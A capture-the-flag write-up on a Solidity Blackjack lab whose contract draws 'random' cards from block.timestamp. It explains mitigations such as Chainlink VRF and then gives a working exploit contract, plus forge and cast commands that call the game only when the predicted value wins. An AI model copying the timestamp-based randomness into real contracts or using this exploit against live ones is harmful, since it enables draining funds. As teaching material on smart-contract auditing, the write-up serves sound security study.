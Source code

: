 ## Mitigation

The main problem that we have up there (well, it's more to the casino side problem, but okay..) is the fact that it uses a *block.timestamp* as the source of randomness, well, this is not good since it makes us (players)  easily win the game by only playing it when the result of the addition is *4*. &nbsp;  
&nbsp;  

There are a few ways we can mitigate this contract; they are:  &nbsp;  
&nbsp;  
1. **Use Better Randomness Sources** &nbsp;  
    Instead of relying on *block.timestamp*, we can use a *commit-reveal scheme*, or a better one is using the *Chainlink VRF* to generate truly unpredictable randomness.
2. **Remove Timestamp Dependence** &nbsp;  
    Removing the *block.timestamp* for anything related to randomness or important decisions is a must, since it has the potential for manipulation &nbsp;  
&nbsp;  
The best solution that we can give if you find anything like this in audits is to implement the VRF. Well,  maybe we need to introduce that to you a little bit. &nbsp;  
&nbsp;  

## Chainlink Verifiable Random Function (VRF)

Chainlink VRF is a probably fair and verifiable random number generator (RNG) made by Chainlink that made random values in smart contracts much more secure without compromising the security or usability of the smart contract. Currently the latest version is VRF2.5, and you can watch the introduction here. &nbsp;  
&nbsp;  
- [What is Chainlink VRF?](https://www.youtube.com/watch?v=eRzLNfn4LGc)
- [Learn VRF v2.5](https://docs.chain.link/vrf/v2-5/overview/subscription)

## Walkthrough

In a game of blackjack, the objectives are to get the closest to 21, both the dealer and the player are competing in this, but as you know, this game, here at least, is rigged so that you can win if you know how. Let's see how we can always win in this game.
&nbsp;  
&nbsp;  
```solidity
function isSolved() external view returns (bool) {
    return blackjack.playerWon();
}
```
&nbsp;  
The *Setup.sol::isSolved()* will get the *Blackjack.sol::playerWon()* bool, this will return true if the player has won the game. Let's move on to the *Blackjack.sol*
&nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: UNLICENSED
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

contract Blackjack{

    address public dealer;
    bool public playerWon;
    bool public dealerMoved;
    bool public playerMoved;
    bool public dealerWon;

    constructor() payable {
        require(msg.value == 30 ether, "Require 30 Ether to Start the game");
        dealer = msg.sender;
    }

    function playBlackjack(uint256 _choice) public {
        require(dealerWon == false, "Dealer has won the game");
        require(playerWon == false, "You've won the game!");
        uint256 playerCards = 17;
        uint256 dealerCards = 15;
        // You Have the first turn each time, you can choose either pass or draw
        // The dealer will always draw each turn, but... you can stall as long as you want.
        if(_choice == 1 && playerMoved != true){
            playerCards += uint256(keccak256(abi.encodePacked(block.timestamp))) % 10;
            playerMoved = true;
        }else if(_choice == 2 && dealerMoved != true){
            // player pass, but the dealer will draw
            uint256 toAdd = 6;
            dealerCards += toAdd;
            dealerMoved = true;
            dealerWon = true;
        }
        // Transfer all balance if the playerWon
        if(playerCards == 21){
            playerWon = true;
            (bool transfered, ) = payable(msg.sender).call{value: address(this).balance}("");
            require(transfered, "Reward failed to sent");
        }
    }

}
```
&nbsp;  
We are up against the dealer (which is the setup contract); looking deeper into *playBlackjack()*, we can notice that the randomness there are using *block.timestamp*, this is not recommended for giving a random value to a variable since it is very easy to predict. We can choose whose turn next; of course we want to take the initiative and draw our card; if not, the dealer will win regardless. We only got one chance, so we better make it count. We are not as detailed as a smart contract, so to solve this lab, we are going to create an exploit contract that will call the playBlackjack with the value of  *1* (our move) and only call it when we got *+4* - since it will bring our card to 21 and if it does, we will have *playerWon()*, here is how we can do it
&nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Blackjack.sol";

contract Exploit {
    Setup public setup;
    Blackjack public BJ;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        BJ = Blackjack(setup.blackjack());
    }

    function solveBlackjack() public willWin{
        BJ.playBlackjack(1);
    }

    modifier willWin(){
        uint256 randomGuesser = uint256(keccak256(abi.encodePacked(block.timestamp))) % 10;
        require(randomGuesser == 4, "YOU WON'T WIN THIS TIME");
        _;
    }

    receive() external payable{}
}
```
&nbsp;  
You don't have to use a *modifier*, you can also use a simple *if else* statement to check if you win or not, but here I'm using a modifier to return a revert message. Now we just have to deploy the contract and solve it.
&nbsp;  
&nbsp;  
```bash
// deploying the exploit contract
forge create src/$PATH_TO_EXPLOIT:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// calling the solveBlackjack()
// you maybe luckly to call it once and solved it, but it may require you call it several times
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "solveBlackjack()"
```
&nbsp;  
Now you can just click the `Flag` button to get your flag~
